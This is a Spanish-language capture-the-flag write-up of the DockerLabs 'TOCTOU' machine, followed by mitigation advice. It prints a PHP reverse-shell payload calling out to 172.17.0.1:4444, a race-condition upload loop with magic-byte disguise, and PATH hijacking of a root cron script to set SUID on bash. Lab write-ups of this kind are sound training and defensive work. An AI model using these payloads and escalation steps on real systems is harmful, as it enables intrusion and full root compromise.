






**Dificultad:** Medio (★★★★☆☆☆☆)

**Categoría:** Web / Descubrimiento de Credenciales / Ejecución de Código (RCE) / Escalada de Privilegios

**Autor:** SBZTNGNR

**Fecha**: 11-09-2026

**Plataforma**: DockerLabs.es

---


---
<h1 align="center">Descripción</h1>
Máquina web que simula un servicio de subida de archivos, donde el control de validación del lado del servidor tiene una vulnerabilidad, seguido de una fase de post-explotación para elevar privilegios hasta el usuario con máximos permisos.

---

**TOCTOU** como nombre ya es una pista fuerte: significa **Time-Of-Check to Time-Of-Use**, una clase de vulnerabilidad de condición de carrera donde el sistema valida un archivo (o recurso) en un momento, pero lo usa en otro momento distinto, y en esa ventana de tiempo entre la verificación y uso se puede hacer uso de el archivo sin procesar aún.

---

<h1 align="center">1 - Reconocimiento</h1>
# 1.1 - Escaneo con NMap:

```bash
nmap -sC -sV -p- --min-rate 1000 172.17.0.2 -oN scan_toctou.txt
```

Resultados:
```bash
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-09 19:45 -0300
Nmap scan report for 172.17.0.2
Host is up (0.000018s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.69 ((Debian))
|_http-title: Zumba Files \xE2\x80\x94 Env\xC3\xADa archivos en segundos
|_http-server-header: Apache/2.4.69 (Debian)
MAC Address: B6:0B:3C:FB:BC:75 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.56 seconds

```
*Puertos Abiertos: 80*

# 1.2 - Enumeración Web:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x html,txt,php,json
```

Resultados:


*Tanto en /uploads/ como en /assets/ ni en /archivos/ había algo interesante para el lab*

# 1.3 - Inspección Web:



El funcionamiento básico de la página era permitir cargar archivos en formatos únicamente **PNG, JPG, GIF o BMP** y alojarlos, para luego ser mostrados en "Archivos Recientes". En caso de querer cargar un archivo ajeno, tiraba el siguiente mensaje **"El análisis detectó contenido potencialmente peligroso. Archivo rechazado."**. Por lo que se decidió a hacer unas pruebas. mediante la shell analizar los tiempos de carga de un archivo.

## Primera Prueba: Imagen Limpia:

```bash
time curl -X POST http://172.17.0.2/upload.php \
  -F "file=@imagen_limpia.jpeg"
```

Subiendo una imagen limpia, sin payload ni nada extraño, el procesamiento tomo ~3 segundos:

Resultado:
```bash
{"ok":true,"url":"\/uploads\/imagen_limpia.jpeg"}
real    3,05s
user    0,01s
sys     0,02s
cpu     0%
```

## Segunda Prueba: Payload con PHP:

La siguiente prueba fue directamente un payload en php:
```php
<?php system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'"); ?>
```

El resultado fue le siguiente:
```bash
time curl -X POST http://172.17.0.2/upload.php \
  -F "file=@shellBeVille.php;type=application/php"
{"ok":false,"error":"El an\u00e1lisis detect\u00f3 contenido potencialmente peligroso. Archivo rechazado."}
real    3,02s
user    0,00s
sys     0,02s
cpu     0%
```

Aquí ya se ve un patrón, cada prueba toma al rededor de 3 segundos, sin importar si es una imagen real o un archivo diferente.

## Tercera Prueba: Payload Camuflado:

La siguiente prueba fue ver el comportamiento contra un archivo .php haciendolo pasar por una imagen:
```bash
time curl -X POST http://172.17.0.2/upload.php \
  -F "file=@shellBeVille.php;type=image/gif"
{"ok":false,"error":"El an\u00e1lisis detect\u00f3 contenido potencialmente peligroso. Archivo rechazado."}
real    3,03s
user    0,02s
sys     0,00s
cpu     0%
```

Comprobado que en cualquier caso, el servidor se toma unos 3 segundos en verificar y validar el archivo, además de al subir el mismo archivo con el mismo nombre, solo lo reemplaza (sea el mismo archivo o no), es tiempo de probar un ataque, ya que el lab se llama TocTou, vamos a realizar una prueba de Race Condition Attack.

---
<h1 align="center">2 - Race Condition Attack</h1>

# 2.1 - Ataque:

Para realizar un ataque como esto vamos a usar un bucle while para que además de subir archivos, vamos a intentar de que antes de que sea rechazado, podamos acceder a el, por ende vamos a usar 3 terminales en paralelo, pero solo al pendiente de una (Pueden ser  2, como se les acomode):

**Terminal 1:**
```bash
while true; do curl -s -X POST http://172.17.0.2/upload.php -F "file=@shellBeVille.php;type=image/jpeg" -F "filename=shellBeVille.php" > /dev/null; done
```

**Terminal 2 (en paralelo, intentando ejecutar el archivo):**
```bash
while true; do curl -s -o /dev/null -w "%{http_code}\n" http://172.17.0.2/uploads/shellBeVille.php; done
```

**Terminal 3 (A la espera):**
```bash
nc -lvnp 4444
```

*Nota: Para crear un payload  con magic bytes/firma de .jpg*:
```bash
printf '\xFF\xD8\xFF\xE0' > shellBeVille.jpg
cat >> shellBeVille.jpg << 'EOF'
<?php system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'"); ?>
EOF
```

**Resultado:**


*Estabilizar Shell:*
```bash
script -qc /bin/bash /dev/null
-
export TERM=xterm-256color; export SHELL=bash; stty rows 44 cols 180
```

---
<h1 align="center">3 - Post-Explotación</h1>

# 3.1 - Enumeración Local

Una vez dentro de la máquina usamos algunos comandos de enumeración para ver si encontramos SUID, Capabilities, tareas Cron, etc:

```bash
www-data@2e010c04877f:/var/www/html/uploads$ getcap -r 2>/dev/null
getcap -r 2>/dev/null
www-data@2e010c04877f:/var/www/html/uploads$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/mount
www-data@2e010c04877f:/var/www/html/uploads$ ps aux
ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2680  1800 ?        Ss   00:43   0:00 /bin/sh -c service apache2 start && service cron start && tail -f /dev/null
root          23  0.0  0.2 238036 23788 ?        Ss   00:43   0:00 /usr/sbin/apache2 -k start
www-data      26  0.0  0.2 238116 16816 ?        S    00:43   0:00 /usr/sbin/apache2 -k start
www-data      27  0.0  0.1 238116 16044 ?        S    00:43   0:00 /usr/sbin/apache2 -k start
www-data      28  0.0  0.1 238116 15780 ?        S    00:43   0:00 /usr/sbin/apache2 -k start
www-data      29  0.0  0.2 238116 16300 ?        S    00:43   0:00 /usr/sbin/apache2 -k start
www-data      30  0.0  0.1 238116 15780 ?        S    00:43   0:00 /usr/sbin/apache2 -k start
root          42  0.0  0.0   3864  1928 ?        Ss   00:43   0:00 /usr/sbin/cron
root          43  0.0  0.0   2624  1636 ?        S    00:43   0:00 tail -f /dev/null
www-data      66  0.0  0.1 238116 15780 ?        S    00:45   0:00 /usr/sbin/apache2 -k start
www-data     322  0.0  0.1 238116 15752 ?        S    00:45   0:00 /usr/sbin/apache2 -k start
www-data     412  0.0  0.0   2680  1808 ?        S    00:52   0:00 sh -c -- bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'
www-data     413  0.0  0.0   4064  3196 ?        S    00:52   0:00 bash -c bash -i >& /dev/tcp/172.17.0.1/4444 0>&1
www-data     414  0.0  0.0   4196  3772 ?        S    00:52   0:00 bash -i
www-data     415  0.0  0.0   2620  1888 ?        S    00:52   0:00 script -qc /bin/bash /dev/null
www-data     416  0.0  0.0   2680  1804 pts/0    Ss   00:52   0:00 sh -c /bin/bash
www-data     417  0.0  0.0   4328  3776 pts/0    S    00:52   0:00 /bin/bash
www-data     483  0.0  0.0   6400  3784 pts/0    R+   00:57   0:00 ps aux
www-data@2e010c04877f:/var/www/html/uploads$ ls -la /etc/cron*
ls -la /etc/cron*
-rw-r--r-- 1 root root 1042 Jun 13  2025 /etc/crontab

/etc/cron.d:
total 20
drwxr-xr-x 1 root root 4096 Oct 27 22:02 .
drwxr-xr-x 1 root root 4096 Nov 10 00:43 ..
-rw-r--r-- 1 root root  102 Jun 13  2025 .placeholder
-rw-r--r-- 1 root root  712 Dec  4  2024 php
-rw-r--r-- 1 root root  117 Oct 27 22:00 zumba-backup

/etc/cron.daily:
total 24
drwxr-xr-x 1 root root 4096 Oct 27 22:02 .
drwxr-xr-x 1 root root 4096 Nov 10 00:43 ..
-rw-r--r-- 1 root root  102 Jun 13  2025 .placeholder
-rwxr-xr-x 1 root root  539 Dec  5  2025 apache2
-rwxr-xr-x 1 root root 1478 Jun 24  2025 apt-compat
-rwxr-xr-x 1 root root  123 Dec 16  2025 dpkg

/etc/cron.hourly:
total 12
drwxr-xr-x 2 root root 4096 Oct 27 22:02 .
drwxr-xr-x 1 root root 4096 Nov 10 00:43 ..
-rw-r--r-- 1 root root  102 Jun 13  2025 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x 2 root root 4096 Oct 27 22:02 .
drwxr-xr-x 1 root root 4096 Nov 10 00:43 ..
-rw-r--r-- 1 root root  102 Jun 13  2025 .placeholder

/etc/cron.weekly:
total 12
drwxr-xr-x 2 root root 4096 Oct 27 22:02 .
drwxr-xr-x 1 root root 4096 Nov 10 00:43 ..
-rw-r--r-- 1 root root  102 Jun 13  2025 .placeholder

/etc/cron.yearly:
total 12
drwxr-xr-x 2 root root 4096 Oct 27 22:02 .
drwxr-xr-x 1 root root 4096 Nov 10 00:43 ..
-rw-r--r-- 1 root root  102 Jun 13  2025 .placeholder
```

Observamos que hay una tarea cron corriendo en los procesos, además de ver un archivo llamado "zumba-backup" el cual contenía lo siguiente:

```
# Copia de seguridad de las subidas de Zumba Files (cada minuto)
* * * * * root /opt/zumba/backup.sh >/dev/null 2>&1
```

Por ende chequeamos la ruta */opt/zumba/backup.sh* y nos decía lo siguiente:

```
#!/bin/bash
#
# Zumba Files — copia de seguridad periódica de la carpeta de subidas.
# Pensado para ejecutarse desde cron. Comprime /var/www/html/uploads en
# /var/backups para poder recuperar envíos recientes si algo va mal.
#
# NOTA del equipo: cargamos nuestro directorio de utilidades propio delante
# del PATH para poder usar versiones "tuneadas" de las herramientas de backup.
export PATH=/opt/zumba/bin:$PATH

STAMP=$(date +%Y%m%d-%H%M%S)
cd /var/www/html/uploads || exit 0

# Empaquetamos el contenido actual de la carpeta de subidas.
tar -czf "/var/backups/uploads-${STAMP}.tar.gz" . 2>/dev/null

# Rotación simple: conservamos solo las 5 copias más recientes.
ls -1t /var/backups/uploads-*.tar.gz 2>/dev/null | tail -n +6 | xargs -r rm -f
```

Básicamente dice que para realizar las tareas de compresión, etc, toma las herramientas "tuneadas", o sea, tanto tar, ls, xargs, etc desde la carpeta  */opt/zumba/bin* exportando este mismo entorno (export PATH=/opt/zumba/bin:$PATH) para su uso, ya que el backup corre como root, veremos sí */opt/zumba/bin* es escribible por un usuario normal como *www-data*:



Y así es, podemos escribir el directorio desde donde el backup revisa y ejecuta primero sus binarios como root, el siguiente paso sería escribir un binario, capaz de darnos acceso a root:

Comando Utilizado:

```bash
echo -e '#!/bin/bash\nchmod +s /bin/bash' > /opt/zumba/bin/tar
```

Luego le damos permisos de ejecución:

```bash
chmod +x /opt/zumba/bin/tar
```

El binario /bin/bash debería cambiar de:
```bash
-rwxr-xr-x 1 root root 1298416 Jul 12 16:58 /bin/bash
```
a:
```bash
-rwsr-sr-x 1 root root 1298416 Jul 12 16:58 /bin/bash
```

Lo vigilamos con ó esperamos ~1 minuto:

```bash
watch -n 1 ls -la /bin/bash
```

---
<h1 align="center">4 - Acceso a Root</h1>

Con un ultimo chequeo revisamos sí bash obtuvo el bit SUID:



Ahora solo falta:
```bash
/bin/bash -p
```

y con esto obtenemos root:

```bash
www-data@2e010c04877f:/opt/zumba/bin$ /bin/bash -p
bash-5.2# whoami; id
root
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-5.2# setpriv --reuid=0 --regid=0 --clear-groups bash
root@2e010c04877f:/opt/zumba/bin# id
uid=0(root) gid=0(root) groups=0(root)
root@2e010c04877f:/opt/zumba/bin# 
```


---

<h1 align="center">5 - Mitigaciones</h1>

## 1. Condición de carrera (TOCTOU) en la validación de archivos subidos (Crítico)

El servidor valida el contenido del archivo subido después de haberlo escrito en una ubicación ya accesible públicamente (/uploads/), y lo elimina recién si el análisis determina que es peligroso. Esa ventana de tiempo entre la escritura y la eliminación (~3 segundos en este caso) permitió que una petición GET concurrente accediera y ejecutara el archivo malicioso antes de que fuera borrado. Esta es la causa raíz crítica del lab, ya que el punto de entrada inicial dependió enteramente de este fallo de diseño.

Algo explicado en el mismo archivo *upload.php*:
```php
/*
 * Zumba Files — endpoint de subida.
 *
 * Flujo del "escaneo rápido":
 *   1. Comprobación ligera de cabecera: el archivo debe EMPEZAR por una firma
 *      de imagen conocida (los famosos magic bytes). Es lo único que miramos
 *      antes de aceptar la transferencia.
 *   2. Guardamos ya el archivo en /uploads con su nombre y extensión originales
 *      para que el enlace esté disponible cuanto antes.
 *   3. DESPUÉS lanzamos el análisis profundo de contenido (tarda un poco porque
 *      revisa todo el fichero). Si detecta algo peligroso, lo retiramos.
 */

```

**Recomendaciones:**

Nunca escribir un archivo en una ruta públicamente accesible antes de completar su validación. El flujo correcto es: recibir el archivo en una ubicación temporal fuera del document root (por ejemplo, /tmp/ o un directorio no servido por Apache/Nginx), validarlo ahí, y solo moverlo a /uploads/ si pasa el análisis.
Si el análisis de contenido toma tiempo (como el delay de ~3 segundos observado), ese tiempo debe transcurrir antes de que el archivo sea alcanzable por cualquier URL, nunca después.
Evitar operaciones de “verificar y luego actuar” como pasos separados sobre el mismo recurso compartido; en su lugar, usar operaciones atómicas del sistema de archivos (por ejemplo, mover el archivo validado con rename(), que en la mayoría de sistemas de archivos es atómico, en vez de copiar y luego borrar en pasos separados).
Servir el directorio de subidas con una configuración que impida la ejecución de scripts (por ejemplo, con una directiva de Apache que deshabilite el manejador PHP dentro de /uploads/, independientemente de la extensión del archivo). Esto añade una capa de defensa adicional incluso si la condición de carrera llegara a explotarse.


## 2. PATH hijacking en tarea cron ejecutada como root (Crítico)

El script /opt/zumba/backup.sh, ejecutado cada minuto como root vía cron, antepone un directorio personalizado (/opt/zumba/bin) al PATH del sistema, y ese directorio resultó ser escribible por el usuario de bajo privilegio www-data. Esto permitió sustituir el binario tar por uno malicioso que fue ejecutado con privilegios de root en el siguiente ciclo del cron, resultando en escalada de privilegios completa.

**Recomendaciones:**

Nunca modificar el PATH dentro de un script que se ejecuta con privilegios elevados, salvo que el directorio añadido tenga permisos estrictamente controlados (propiedad de root, sin permiso de escritura para otros usuarios ni grupos).
Usar siempre rutas absolutas para los binarios invocados dentro de scripts que corren como root o con sudo (/usr/bin/tar, /usr/bin/ls, /usr/bin/xargs), en vez de depender del PATH heredado del entorno.
Revisar y restringir los permisos de cualquier directorio que forme parte del PATH de un proceso privilegiado; ningún directorio escribible por un usuario sin privilegios debería aparecer nunca antes que las rutas estándar del sistema.
Auditar periódicamente los scripts invocados por cron, especialmente los que corren como root, buscando patrones de PATH modificado, comandos sin ruta absoluta, o archivos/directorios con permisos de escritura más amplios de lo necesario.

## 3. Ausencia de defensa en profundidad entre la capa web y el sistema de archivos (Medio)

Más allá de las dos causas raíz puntuales, el lab expone un problema de diseño más amplio: un solo mecanismo de validación (el análisis de contenido) fue responsable de impedir tanto la subida como la ejecución de archivos maliciosos. Al fallar ese único control, no hubo ninguna capa adicional que detuviera la cadena de ataque.

**Recomendaciones:**

Aplicar el principio de defensa en profundidad: combinar validación de contenido con restricciones a nivel de servidor web (deshabilitar ejecución de scripts en directorios de subida), permisos de sistema de archivos restrictivos, y, cuando sea posible, aislar el almacenamiento de archivos subidos en un servicio o volumen separado del que sirve la aplicación.
Considerar el uso de un usuario de sistema dedicado y con privilegios mínimos para el proceso de backup, en vez de ejecutarlo como root, limitando así el impacto de cualquier fallo similar al del PATH hijacking.
